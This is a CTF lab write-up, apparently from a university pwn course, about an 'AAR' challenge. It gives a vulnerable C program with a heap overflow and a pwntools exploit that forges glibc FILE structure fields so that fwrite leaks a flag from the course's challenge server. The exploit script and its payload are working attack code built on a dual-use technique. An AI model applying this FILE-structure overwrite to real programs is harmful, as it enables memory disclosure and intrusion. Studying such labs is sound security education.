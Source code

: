 ```yaml
---
title: Simple PWN 0x22(Lab - `AAR`)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x22(Lab - `AAR`)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
:::spoiler Original Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main()
{
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
:::

## Exploit - heap overflow + overlap flag
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

context.arch = 'amd64'

flag_addr = 0x404050

raw_input()
payload = flat(
    p64(0)*4,
    p64(0xfbad0800),        #_flags
    p64(0),                 #_IO_read_ptr
    p64(flag_addr),         #_IO_read_end
    p64(0),                 #_IO_read_base
    p64(flag_addr),         #_IO_write_base
    p64(flag_addr+0x10),    #_IO_write_ptr
    p64(0)*8,               #_IO_write_end + _IO_buf_base + _IO_buf_end + _chain
    p64(0x1)                #_fileno
)

r.send(payload)

r.interactive()
```
